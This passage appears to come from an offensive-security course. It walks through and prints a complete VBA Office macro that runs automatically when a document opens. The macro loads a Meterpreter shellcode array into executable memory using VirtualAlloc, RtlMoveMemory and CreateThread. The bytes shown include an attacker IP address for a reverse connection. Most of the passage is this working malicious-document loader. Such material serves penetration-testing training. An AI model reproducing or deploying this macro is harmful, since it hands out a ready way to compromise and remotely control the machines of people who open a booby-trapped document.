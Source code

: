 Now we can piece the entire VBA macro together as shown in Listing 47.

In summary, we begin by declaring functions for the three Win32 APIs. Then we declare five variables, including a variable for our Meterpreter array and use _VirtualAlloc_ to create some space for our shellcode. Next, we use _RtlMoveMemory_ to put our code in memory with the help of a _For_ loop. Finally, we use _CreateThread_ to execute our shellcode.

```
Private Declare PtrSafe Function CreateThread Lib "KERNEL32" (ByVal SecurityAttributes As Long, ByVal StackSize As Long, ByVal StartFunction As LongPtr, ThreadParameter As LongPtr, ByVal CreateFlags As Long, ByRef ThreadId As Long) As LongPtr

Private Declare PtrSafe Function VirtualAlloc Lib "KERNEL32" (ByVal lpAddress As LongPtr, ByVal dwSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr

Private Declare PtrSafe Function RtlMoveMemory Lib "KERNEL32" (ByVal lDestination As LongPtr, ByRef sSource As Any, ByVal lLength As Long) As LongPtr

Function MyMacro()
    Dim buf As Variant
    Dim addr As LongPtr
    Dim counter As Long
    Dim data As Long
    Dim res As Long
    
    buf = Array(232, 130, 0, 0, 0, 96, 137, 229, 49, 192, 100, 139, 80, 48, 139, 82, 12, 139, 82, 20, 139, 114, 40, 15, 183, 74, 38, 49, 255, 172, 60, 97, 124, 2, 44, 32, 193, 207, 13, 1, 199, 226, 242, 82, 87, 139, 82, 16, 139, 74, 60, 139, 76, 17, 120, 227, 72, 1, 209, 81, 139, 89, 32, 1, 211, 139, 73, 24, 227, 58, 73, 139, 52, 139, 1, 214, 49, 255, 172, 193, _
...
49, 57, 50, 46, 49, 54, 56, 46, 49, 55, 54, 46, 49, 52, 50, 0, 187, 224, 29, 42, 10, 104, 166, 149, 189, 157, 255, 213, 60, 6, 124, 10, 128, 251, 224, 117, 5, 187, 71, 19, 114, 111, 106, 0, 83, 255, 213)

    addr = VirtualAlloc(0, UBound(buf), &H3000, &H40)
    
    For counter = LBound(buf) To UBound(buf)
        data = buf(counter)
        res = RtlMoveMemory(addr + counter, data, 1)
    Next counter
    
    res = CreateThread(0, 0, addr, 0, 0, 0)
End Function 

Sub Document_Open()
    MyMacro
End Sub

Sub AutoOpen()
    MyMacro
End Sub
```
